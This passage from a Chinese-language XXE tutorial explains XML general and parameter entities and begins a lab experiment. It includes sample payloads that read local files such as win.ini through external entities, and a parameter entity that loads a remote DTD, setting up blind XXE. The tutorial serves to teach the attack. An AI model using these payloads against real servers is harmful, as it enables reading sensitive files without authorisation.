 **1.通用实体**

==用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用==

**示例代码：**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)==使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**==
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```xml-dtd
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

**抛转：**

参数实体在我们 Blind XXE 中起到了至关重要的作用

## **四、我们能做什么**

上一节疯狂暗示了 **外部实体** ，那他究竟能干什么？

实际上，当你看到下面这段代码的时候，有一点安全意识的小伙伴应该隐隐约约能觉察出什么

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

既然能读 dtd 那我们是不是能将路径换一换，换成敏感文件的路径，然后把敏感文件读出来？

### **实验一：有回显读本地敏感文件(Normal XXE)**

==这个实验的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件==

本地服务器上放上解析 XML 的 php 代码：
